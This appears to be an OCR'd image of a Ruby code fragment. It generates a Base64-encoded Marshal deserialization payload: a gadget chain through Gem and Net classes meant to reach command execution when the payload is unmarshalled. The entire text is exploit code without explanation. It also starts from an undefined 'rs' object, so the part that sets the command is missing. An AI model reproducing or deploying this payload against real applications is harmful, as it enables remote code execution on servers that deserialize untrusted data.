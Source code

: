 ```
wa2 = Net::WriteAdapter.new(rs, :resolve)

i = Gem::Package::TarReader::Entry.allocate
i.instance_variable_set('@read', 0)
i.instance_variable_set('@header', "aaa")


n = Net::BufferedIO.allocate
n.instance_variable_set('@io', i)
n.instance_variable_set('@debug_output', wa2)

t = Gem::Package::TarReader.allocate
t.instance_variable_set('@io', n)

r = Gem::Requirement.allocate
r.instance_variable_set('@requirements', t)

payload = Marshal.dump([Gem::SpecFetcher, Gem::Installer, r])
puts Base64.encode64(payload)
```